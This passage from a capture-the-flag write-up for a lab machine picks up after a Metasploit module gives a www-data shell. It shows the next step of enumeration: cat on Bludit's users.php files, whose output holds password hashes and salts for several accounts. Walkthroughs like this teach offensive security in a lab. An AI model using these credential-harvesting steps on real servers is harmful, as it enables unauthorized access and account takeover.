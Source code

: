 After running the Metasploit-module, we indeed get a shell as www-data.

### Privesc to user

Now that we have gained initial-access to the server, let us enumerate the system to escalate our privileges.

#### Enumeration as www-data

Let us start our enumeration by looking at the file-system of the server.

```bash
www-data@blunder:/var/www$ ls -alh
total 20K
drwxr-xr-x  5 root     root     4.0K Nov 28  2019 .
drwxr-xr-x 15 root     root     4.0K Nov 27  2019 ..
drwxr-xr-x  8 www-data www-data 4.0K May 19 15:13 bludit-3.10.0a
drwxrwxr-x  8 www-data www-data 4.0K Apr 28 12:18 bludit-3.9.2
```

Looking at the files in `/var/www/`, we find two installations of Bludit. Let us search both installations for the [users.php file](https://github.com/bludit/bludit/blob/8c4a6d8f9e34c75cdbdecfc326b1f8802e7feabe/install.php#L437), which should contain credentials.

```bash
www-data@blunder:/var/www$ cat */bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>                                                                     
{                                                          
    "admin": {        
        "nickname": "Hugo",                                
        "firstName": "Hugo",
        "lastName": "",                                    
        "role": "User",                                    
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
[...]
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
[...]
"fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
[...]
```
